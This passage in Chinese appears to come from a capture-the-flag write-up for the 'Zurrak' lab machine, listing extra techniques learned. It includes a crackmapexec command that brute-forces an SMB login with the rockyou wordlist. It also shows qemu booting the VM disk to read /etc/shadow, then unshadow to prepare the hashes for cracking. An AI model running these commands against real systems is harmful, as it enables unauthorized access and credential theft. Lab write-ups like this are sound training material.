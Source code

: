 ## 额外收获

### 爆破smb密码

在看[绿师傅的wp](https://kerszl.github.io/hacking/walkthrough/Zurrak/)的时候发现了一种爆破登录的方式：

```
crackmapexec smb 172.20.10.3 -u asli -p /usr/share/wordlists/rockyou.txt
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800992.png" alt="image-20240407160421176" style="zoom:50%;" />

牛蛙！！！！记住了！

### 使用qemu模拟

看[一国外师傅解析](https://www.youtube.com/watch?v=tmAwz02KP1Y)的时候，出现了使用`qemu`模拟执行，而不用vmware进行操作的方法，在这里记录一下：

```bash
qemu-system-x86_64 -hda zurrak.old.vmdk -display gtk,show-cursor=on
# cat (hd0,1)/etc/shadow
unshadow passwd shadow > hashattack
```

## 参考

https://kerszl.github.io/hacking/walkthrough/Zurrak/

https://www.youtube.com/watch?v=zzkF42n2UGw

https://www.youtube.com/watch?v=tmAwz02KP1Y
